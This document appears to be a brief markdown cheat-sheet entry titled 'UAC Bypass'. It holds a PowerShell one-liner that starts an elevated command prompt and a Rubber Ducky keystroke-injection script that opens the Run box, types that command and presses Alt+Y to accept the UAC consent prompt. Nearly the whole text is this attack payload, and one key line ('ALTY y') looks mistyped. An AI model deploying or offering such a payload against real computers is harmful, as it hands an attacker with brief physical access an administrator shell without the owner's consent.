 # 1 - Open Command Prompt via Run

```
powershell Start-Process cmd.exe -Verb runAs

ALT + y
```

# Ducky Script

```
REM *** UAC Bypass ***
DELAY 2000
WINDOWS r
DELAY 200
STRING powershell Start-Process cmd.exe -Verb runAs
ENTER
DELAY 2000
ALTY y
DELAY 500
```
